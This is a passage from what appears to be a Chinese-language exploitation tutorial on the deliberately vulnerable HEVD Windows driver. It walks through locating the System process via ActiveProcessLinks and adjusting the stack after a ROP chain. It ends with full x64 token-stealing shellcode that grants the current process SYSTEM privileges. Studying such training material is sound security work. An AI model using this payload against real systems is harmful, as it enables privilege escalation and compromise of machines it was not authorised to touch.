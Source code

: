 2.  比较当前`ActiveProcessLinks`值`-8`的内存地址是否为`UniqueProcessId`
    
3.  否：更换当前结构体为下一个
    
4.  是：从`ActiveProcessLinks-0x70`的位置得到`Token`地址
    
5.  解析 Token，赋值给**当前进程**（Windows 会自动解析为 exp 的程序（从页表映射等来看确实应该如此））
    

仔细逆向会发现

[![](assets/1706090578-fb4f1b42a19c8d936f2263e8f0b3e8eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132529-a7f5d840-b8e6-1.png)

那么在没有任何栈变动的情况下`add rsp, 0x28`就能恢复栈，但是我们只有了 ROP，ROP 链中存在两个`ret`和一个`pop`，抬栈了 0x18，所以在 shellcode 中只需要`add rsp, 0x10`

[![](assets/1706090578-7d2959704d0246c44c95325d30d48288.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132547-b2a92972-b8e6-1.png)

同时 HEVD 的`NT_STATUS`使用`RAX`检测处理是否成功，所以要`xor rax,rax`

```plain
[Bits 64]

_start:    
    xor rax, rax
    mov rax, gs:[rax+0x188]
    mov rax, [rax+0xb8]     ;rax = 当前EPROCESS
    mov r9, rax             ;r9  = 当前EPROCESS
    mov rax, [rax+0x448]    ;rax = 当前EPROCESS.List
    mov rax, [rax]          ;rax = 当前EPROCESS.List->flink

__loop:
    mov rdx, [rax-0x8]      ;rdx = 上一个进程的 upid
    mov r8, rax             ;r8  = 当前 EPROCESS.List->flink
    mov rax, [rax]          ;rax = 上一个进程的.List
    cmp rdx, 0x4
    jnz __loop

    ;rdx = 4
    ;r8 = System EPROCESS
    mov rdx, [r8+0x70]      ;rdx = system token
    and rdx, -0x8           ;消除低4位
    mov rcx, [r9+0x4b8]     ;当前EPROCESS的token
    and rcx, 0x7            ;
    add rdx, rcx            ;rdx = 系统token高位+当前token低4位
    mov [r9+0x4b8], rdx     ;将合成的token复制给当前

    add rsp, 0x10
    retn
```
